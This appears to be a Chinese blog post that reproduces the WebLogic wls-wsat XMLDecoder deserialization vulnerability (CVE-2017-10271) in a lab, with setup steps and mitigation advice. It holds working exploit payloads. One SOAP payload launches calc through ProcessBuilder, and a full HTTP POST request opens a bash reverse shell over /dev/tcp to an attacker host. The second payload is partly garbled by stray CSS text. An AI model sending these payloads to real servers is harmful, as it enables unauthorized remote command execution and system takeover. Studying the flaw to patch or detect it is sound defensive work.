









# Weblogic 'wls-wsat' XMLDecoder 反序列化 _CVE-2017-10271 漏洞复现 - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11150529.html`](https://www.cnblogs.com/yuzly/p/11150529.html)

Weblogic 'wls-wsat' XMLDecoder 反序列化 _CVE-2017-10271 漏洞复现

**一、漏洞概述 **

WebLogic 的 WLS Security 组件对外提供 webservice 服务,其中使用了 XMLDecoder 来解析用户传入的 XML 数据,在解析的过程中出现反序列化漏洞,导致可执行任意命令。

**二、漏洞版本**

受影响 WebLogic 版本：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0

**三、漏洞复现环境搭建**

1、所需环境 目标机:安装 weblogic 10.3.6.0 攻击机:win10 安装 burpsuit

2、配置 java 环境

　　

3、安装 Weblogic

3.1 官网下载(https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-main-097127.html),运行软件

　　

3.2 不勾选 “我希望通过 My Oracle Support 接收安全更新"

　　

3.3 设置用户名以及密码

　　

3.4 选择生产模式

　　

3.5 若安装选择的默认路径与默认域名，在如下路径中运行,输入用户名以及密码,运行 weblogic 服务 C:\Oracle\Middleware\user_projects\domains\base_domain\WebLogic.cmd

　　

3.6 本地环境测试,出现如下图,说明 weblogic 环境搭建成功

　　

3.7 win10 测试访问 http://192.168.10.171:7001/wls-wsat/CoordinatorPortType

　　

**四、漏洞复现**

1、访问 http://192.168.10.171:7001/wls-wsat/CoordinatorPortType,存在下图则说明存在漏洞

　　

2、漏洞验证(POC)

2.1Poc 如下,在目标计算机上调用计算器

```
<soapenv:Envelope     xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
       <work:WorkContext    xmlns:work="http://bea.com/2004/06/soap/workarea/">
           <java      version="1.8" class="java.beans.XMLDecoder">
               <void     class="java.lang.ProcessBuilder">
                    <array    class="java.lang.String" length="3">
                        <void     index="0">
                           <string>calc</string>
                        </void>
                        <void     index="1">
                            <string></string>
                        </void>
                        <void     index="2">
                            <string> </string>
                        </void>
                    </array>
                <void     method="start"/></void>
           </java>
       </work:WorkContext>
   </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>
```

2.2 构造 post 数据包,并添加 Content-text/xml, 把 Cache-Control 修改为 no-cache

　　

2.3 发送数据包,可以看到返回的状态码为 500

　　

2.4 查看目标机器,看到看到目标机器的计算器已经被调用

 　　

**五、漏洞防御**

1、 升级本版本

2、 删除根据实际环境路径，删除 WebLogic wls-wsat 组件

C:\Oracle\Middleware\wlserver_10.3\server\lib\ wls-wsat.war

C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\.internal\ wls-wsat.war

C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\wls-wsat

2.1 删除 wls-wsat 组件,然后重启 WebLogic 服务

2.2 浏览器访问,如下图,说明漏洞不存在

　　

**使用 ubuntu 16.04 搭建 docker vulhub 漏洞环境搭建** 

vulhub 漏洞环境搭建参考: [`blog.csdn.net/qq_36374896/article/details/84102101`](https://blog.csdn.net/qq_36374896/article/details/84102101)

使用 vulhub 漏洞环境复现 CVE-2017-10271,参考文档:

https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271

1.启动测试环境

docker-compose up -d

2.浏览器访问 http://172.17.0.1:7001/wls-wsat/CoordinatorPortType

3.构造 post 数据包,反弹 shell   #注意反弹 shell 需要把特殊字符进行编码(html 转义符对特殊符号进行转换或者利用 burpsuit 使用 html 编码), 否则解析 XML 的时候将出现格式错误

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1 Host: 172.17.0.1:7001 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type:text/xml
Content-Length: 641

<soapenv:Envelope color: rgba(0, 128, 0, 1); text-decoration: underline">http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header>
<work:WorkContext color: rgba(0, 128, 0, 1); text-decoration: underline">http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.10.135/7777 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

　　

4.此时查看 kali,可以看到成功反弹 shell

　　